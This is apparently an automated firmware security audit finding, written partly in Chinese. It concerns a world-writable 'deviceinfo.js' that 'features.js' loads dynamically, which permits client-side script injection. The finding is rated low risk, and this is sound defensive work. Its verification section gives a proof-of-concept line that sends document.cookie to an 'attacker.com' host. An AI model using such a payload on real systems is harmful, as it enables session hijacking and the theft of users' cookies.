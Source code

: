 ## 验证指标

- **验证时长：** 133.93 秒
- **Token 使用量：** 165183

---

## 原始信息

- **文件/目录路径：** `www/config/deviceinfo.js`
- **位置：** `deviceinfo.js:1 DeviceInfo()`
- **描述：** The 'deviceinfo.js' file is globally writable (permissions: rwxrwxrwx) and is dynamically loaded by 'features.js' using $.getScript in a client-side JavaScript context. An attacker with non-root login credentials can modify this file to inject malicious JavaScript code, which will execute in the browser of any user who accesses the web page that relies on 'features.js'. This could lead to client-side attacks such as session hijacking or configuration tampering within the web interface. However, the vulnerability is limited to client-side execution and does not provide a direct path to system-level privilege escalation or remote code execution on the device. The trigger condition is when the web page loading 'features.js' is accessed, and the exploitation requires the attacker to have write access to the file, which is already available due to the permissions.
- **代码片段：**
  ```
  // From deviceinfo.js
  function DeviceInfo()
  {
  	this.bridgeMode = true;
  	this.featureVPN = true;
  	// ... other properties
  }
  
  // From features.js
  $.getScript("/config/deviceinfo.js", function(){
  	DeviceInfo.prototype = new CommonDeviceInfo();
  	DeviceInfo.prototype.constructor = DeviceInfo;
  	var currentDevice = new DeviceInfo();
  	sessionStorage.setItem('currentDevice', JSON.stringify(currentDevice));
  });
  ```
- **备注：** This finding is based on direct evidence of file permissions and code usage. The risk is low because the exploitation is confined to the client-side and does not escalate privileges on the device. Further analysis could involve checking if the web server or other server-side components use these files, but based on the current code, it appears to be client-only. No additional input sources or cross-component interactions were identified in this analysis.

## 验证结论

- **描述准确性：** `accurate`
- **是否为真实漏洞：** `True`
- **风险级别：** `Low`
- **详细原因：** 安全警报准确描述了漏洞：1) 'deviceinfo.js' 文件权限为 rwxrwxrwx（全局可写），已验证；2) 'features.js' 使用 $.getScript 动态加载 'deviceinfo.js'，代码片段已验证；3) 攻击者模型：具有非 root 登录凭据（文件系统写权限）的攻击者可以修改 'deviceinfo.js'；4) 触发条件：用户访问加载 'features.js' 的网页时，恶意代码在客户端执行。漏洞可利用，因为攻击者可以注入恶意 JavaScript（如会话劫持代码），但影响仅限于客户端（如窃取 cookies 或篡改配置），不涉及系统级权限提升。PoC 步骤：攻击者修改 'deviceinfo.js'，添加恶意代码（例如：function DeviceInfo() { ...; var c=document.cookie; new Image().src='http://attacker.com/steal?c='+encodeURIComponent(c); }），当用户访问网页时，代码执行。风险低，因为无法直接攻击设备系统。
